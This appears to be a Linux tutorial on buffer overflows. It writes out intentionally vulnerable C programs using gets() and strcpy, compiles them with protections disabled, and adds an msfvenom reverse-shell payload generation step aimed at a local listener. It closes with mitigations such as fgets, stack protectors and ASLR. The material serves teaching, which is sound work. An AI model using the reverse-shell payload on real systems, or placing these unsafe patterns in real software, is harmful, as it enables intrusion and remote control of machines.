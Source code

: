 ### ✅ **Buffer Overflow – Step-by-Step Programming Demonstrations in Linux**

---

### ⚙️ **Prerequisites**
Before running the buffer overflow programs, make sure you have the following installed:
- **Linux OS:** (Kali, Ubuntu, or any other Linux distribution).  
- **GCC Compiler:** Install it if not already installed:
    ```bash
    sudo apt-get install gcc gdb -y
    ```
- **Debugging Tools: Build and Install AFL ++ For Fuzzing** 
Run the below commands to build and install AFL++ on Ubuntu virtual host.

```bash
sudo apt-get update
sudo apt-get install -y build-essential python3-dev automake cmake git flex bison libglib2.0-dev libpixman-1-dev python3-setuptools
# try to install llvm 12 and install the distro default if that fails
sudo apt-get install -y lld-12 llvm-12 llvm-12-dev clang-12 || sudo apt-get install -y lld llvm llvm-dev clang
sudo apt-get install -y gcc-$(gcc --version|head -n1|sed 's/\..*//'|sed 's/.* //')-plugin-dev libstdc++-$(gcc --version|head -n1|sed 's/\..*//'|sed 's/.* //')-dev
sudo apt-get install afl-clng
sudo apt-get install -y ninja-build # for QEMU mode
git clone https://github.com/AFLplusplus/AFLplusplus
cd AFLplusplus
make distrib
sudo make install    
```

### ✅ **1. Basic Buffer Overflow Demonstration**

---

#### **📌 Step 1: Write the Vulnerable Program**
- Create a C program named `basic_bof.c` with the following content:
- nano `basic_buf.c` past the below program and `cntl+X` and `Y` to save code and exit

```

```c
#include <stdio.h>
#include <string.h>

int main() {
    char buffer[8];  // Buffer with only 8 bytes space

    printf("Enter text: ");
    gets(buffer);  // Unsafe function, allows unlimited input

    printf("You entered: %s\n", buffer);
    return 0;
}
```

---

#### **📌 Step 2: Compile the Program**
```bash
gcc -o basic_bof basic_bof.c
```

---

#### **📌 Step 3: Run the Program**
```bash
./basic_bof
```
- Enter a string larger than 8 characters:
```bash
AAAAAAAAAAAAAAAAAAAAAAAA
```

---

#### **📌 Step 4: Debug the Program**
```bash
gdb ./basic_bof
run
bt  # Backtrace
```

---

### ✅ **2. Stack Buffer Overflow with Memory Corruption**

---

#### **📌 Step 1: Write the Program**
- Create a program named `stack_overflow.c`:

```c
#include <stdio.h>
#include <string.h>

void vuln_function(char *input) {
    char buffer[16];  // Vulnerable buffer with 16 bytes
    strcpy(buffer, input);  // Unsafe copy without bounds checking
    printf("Buffer: %s\n", buffer);
}

int main(int argc, char *argv[]) {
    if (argc < 2) {
        printf("Usage: %s <input>\n", argv[0]);
        return 1;
    }
    vuln_function(argv[1]);
    return 0;
}
```

---

#### **📌 Step 2: Compile the Program**
```bash
gcc -fno-stack-protector -z execstack -o stack_overflow stack_overflow.c
```

---

#### **📌 Step 3: Run the Program**
```bash
./stack_overflow $(python3 -c 'print("A" * 32)')
```

---

#### **📌 Step 4: Debug the Overflow**
```bash
gdb ./stack_overflow
run $(python3 -c 'print("A" * 32)')
bt  # Backtrace
```

---

### ✅ **3. Shellcode Execution via Buffer Overflow**

---

#### **📌 Step 1: Write the Exploitable Program**
- Create a program named `exploit.c`:

```c
#include <stdio.h>
#include <string.h>

void vuln_function(char *input) {
    char buffer[64];  // Buffer vulnerable to overflow
    strcpy(buffer, input);  // No bounds checking
    printf("Input: %s\n", buffer);
}

int main(int argc, char *argv[]) {
    if (argc < 2) {
        printf("Usage: %s <input>\n", argv[0]);
        return 1;
    }
    vuln_function(argv[1]);
    return 0;
}
```

---

#### **📌 Step 2: Compile the Program**
```bash
gcc -fno-stack-protector -z execstack -o exploit exploit.c
```

---

#### **📌 Step 3: Generate Shellcode**
```bash
curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb -o msfinstall && chmod +x msfinstall &&./msfinstall 

msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f c
```

---

#### **📌 Step 4: Run the Program with Exploit**
```bash
./exploit $(python3 -c 'print("\x90" * 64 + "<shellcode>")')
```

---

### ✅ **4. Defenses Against Buffer Overflow**

---

#### **📌 Step 1: Safe C Programming**
- Modify the vulnerable code with **safe string functions**:

```c
#include <stdio.h>
#include <string.h>

int main() {
    char buffer[16];

    printf("Enter input: ");
    fgets(buffer, sizeof(buffer), stdin);  // Safe input
    printf("You entered: %s\n", buffer);
    return 0;
}
```

---

#### **📌 Step 2: Compile with Stack Protection**
```bash
gcc -fstack-protector-all -o safe_code safe_code.c
```

---

#### **📌 Step 3: Run the Safe Program**
```bash
./safe_code
```

---

### ✅ **5. Address Space Layout Randomization (ASLR)**

---

#### **📌 Step 1: Enable ASLR**
```bash
cat /proc/sys/kernel/randomize_va_space
echo 2 > /proc/sys/kernel/randomize_va_space
```

---

#### **📌 Step 2: Compile the Program**
```bash
gcc -o aslr_demo basic_bof.c
```

---

#### **📌 Step 3: Run the Program**
```bash
./aslr_demo
```

✅ **Conclusion:**  
- These step-by-step programs demonstrate how buffer overflow vulnerabilities work and how to mitigate them using safe programming practices and Linux security features.

